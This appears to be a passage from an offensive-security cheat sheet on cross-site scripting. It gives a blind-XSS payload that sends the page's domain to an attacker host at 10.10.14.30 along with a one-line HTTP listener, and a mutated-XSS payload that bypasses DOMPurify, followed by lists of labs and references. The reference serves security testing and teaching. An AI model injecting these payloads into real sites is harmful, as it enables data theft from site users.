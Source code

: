 You can use a [data grabber for XSS](#data-grabber) and a one-line HTTP server to confirm the existence of a blind XSS before deploying a heavy blind-XSS testing tool.

Eg. payload

```html
<script>document.location='http://10.10.14.30:8080/XSS/grabber.php?c='+document.domain</script>
```

Eg. one-line HTTP server:

```ps1
ruby -run -ehttpd . -p8080
```

## Mutated XSS

Use browsers quirks to recreate some HTML tags.

**Example**: Mutated XSS from Masato Kinugawa, used against [cure53/DOMPurify](https://github.com/cure53/DOMPurify) component on Google Search.

```javascript
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

## Labs

- [PortSwigger Labs for XSS](https://portswigger.net/web-security/all-labs#cross-site-scripting)
- [Root Me - XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)
- [Root Me - XSS - Server Side](https://www.root-me.org/en/Challenges/Web-Server/XSS-Server-Side)
- [Root Me - XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)
- [Root Me - XSS - Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)
- [Root Me - XSS - Stored - Filter Bypass](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)
- [Root Me - XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)
- [Root Me - XSS DOM Based - AngularJS](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)
- [Root Me - XSS DOM Based - Eval](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)
- [Root Me - XSS DOM Based - Filters Bypass](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass)
- [Root Me - XSS - DOM Based](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based)
- [Root Me - Self XSS - DOM Secrets](https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-DOM-Secrets)
- [Root Me - Self XSS - Race Condition](https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-Race-Condition)

## References

- [Abusing XSS Filter: One ^ leads to XSS(CVE-2016-3212) - Masato Kinugawa's (@kinugawamasato) - July 15, 2016](http://mksben.l0.cm/2016/07/xxn-caret.html)
- [Account Recovery XSS - Gábor Molnár - April 13, 2016](https://sites.google.com/site/bughunteruniversity/best-reports/account-recovery-xss)
- [An XSS on Facebook via PNGs & Wonky Content Types - Jack Whitton (@fin1te) - January 27, 2016](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)
- [Bypassing Signature-Based XSS Filters: Modifying Script Code - PortSwigger - August 4, 2020](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-script-code)
- [Combination of techniques lead to DOM Based XSS in Google - Sasi Levi - September 19, 2016](http://sasi2103.blogspot.sg/2016/09/combination-of-techniques-lead-to-dom.html)
- [Cross-site scripting (XSS) cheat sheet - PortSwigger - September 27, 2019](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [Encoding Differentials: Why Charset Matters - Stefan Schiller - July 15, 2024](https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/)
- [Facebook's Moves - OAuth XSS - Paulos Yibelo - December 10, 2015](http://www.paulosyibelo.com/2015/12/facebooks-moves-oauth-xss.html)